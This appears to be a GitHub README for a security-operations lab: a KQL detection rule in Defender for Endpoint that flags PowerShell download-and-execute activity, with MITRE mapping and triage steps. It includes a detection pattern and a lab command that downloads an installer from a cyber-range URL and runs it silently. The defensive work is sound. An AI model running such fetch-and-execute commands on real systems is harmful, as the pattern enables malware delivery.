





# PowerShell Download & Execution Detection (MDE + KQL)
This project demonstrates a basic SOC workflow:
simulate activity → develop and deploy a custom KQL detection rule → trigger an alert → investigate.

## Detection Summary
- **Data source:** MDE Advanced Hunting (`DeviceProcessEvents`)
- **Behavior:** download + execute via PowerShell
- **Suspicious flags:** `-ExecutionPolicy Bypass`, `-NoProfile`

## MITRE ATT&CK
- **T1059.001 – Command and Scripting Interpreter: PowerShell**

## Detection Logic (KQL)

This query identifies PowerShell processes that download and execute files by looking for command lines containing both `Invoke-WebRequest` and `Start-Process`.

Source file: [`query.kql`](query.kql)

```md
```kql
let target_machine = "ap-vm";
DeviceProcessEvents
| where DeviceName == target_machine
| where FileName in~ ("powershell.exe","pwsh.exe")
| where ProcessCommandLine has_all ("Invoke-WebRequest","Start-Process")
| where ProcessCommandLine has_any ("-ExecutionPolicy Bypass","-NoProfile")

## Test / Reproduction (Lab)

To validate the detection, I ran the following PowerShell command in a lab VM to simulate a download-and-execute pattern:

```powershell
Invoke-WebRequest -Uri "https://sacyberrange00.blob.core.windows.net/vm-applications/7z2408-x64.exe" -OutFile "C:\ProgramData\7z2408-x64.exe"; Start-Process "C:\ProgramData\7z2408-x64.exe" -ArgumentList "/S" -Wait

## Detection in Action

### 1. Attack Execution
The following PowerShell command simulates downloading and executing a file:



---

### 2. KQL Query Results
The detection query identifies PowerShell processes with download and execution behavior:



---

### 3. Alert Details
A custom detection alert is generated based on the query:



---

### 4. Process Timeline
The process tree shows the sequence of events from command execution to file launch:



---

### 5. Device Context
Additional context about the affected device:



## Recommended Actions

If this alert is triggered, analysts should:

- Review the full command line and initiating process
- Validate the source URL and downloaded file
- Check if the activity was expected or authorized
- Analyze the process tree for additional suspicious behavior
- Isolate the device if malicious activity is confirmed
- Collect an investigation package for further analysis
